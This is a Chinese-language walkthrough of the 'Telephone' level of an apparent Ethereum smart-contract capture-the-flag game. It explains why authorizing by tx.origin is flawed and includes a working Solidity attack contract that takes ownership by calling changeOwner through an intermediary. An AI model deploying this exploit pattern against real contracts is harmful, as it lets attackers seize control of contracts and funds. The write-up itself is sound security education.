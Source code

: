 # 4. Telephone
### 原题
```
获得下面合约来完成这一关

```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
### 分析
这道题又是让我们想办法获取所有权。唯一能下手的地方就是changeOwner()这个函数了。最关键的是要满足“tx.origin != msg.sender”。tx.origin是什么。origin表示是交易的最初发起者。msg.sender又是什么。sender是消息的直接调用者。什么时候最初发起者和消息调用者可以不同的呢？中间加个桥，加个转发。就像神秘大佬从来不会抛头露面，一般都是有自己的代理人出面打理。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external ;
}

contract TelephoneAttack{

    ITelephone telephone;
    
    constructor(address _telephone)  {
        telephone = ITelephone(_telephone);
    }

    function changeOwnerAttack() public returns (bool){
      // 站在攻击合约的角度，msg.sender可能是我的钱包账号
      // 站在被攻击合约的角度，msg.sender是攻击合约的地址
      // tx.origin就是我的钱包账号，被攻击合约收到的msg.sender是攻击合约地址
      (bool success,) = address(telephone).call(abi.encodeWithSignature("changeOwner(address)", msg.sender));

      return success;
    }
}
```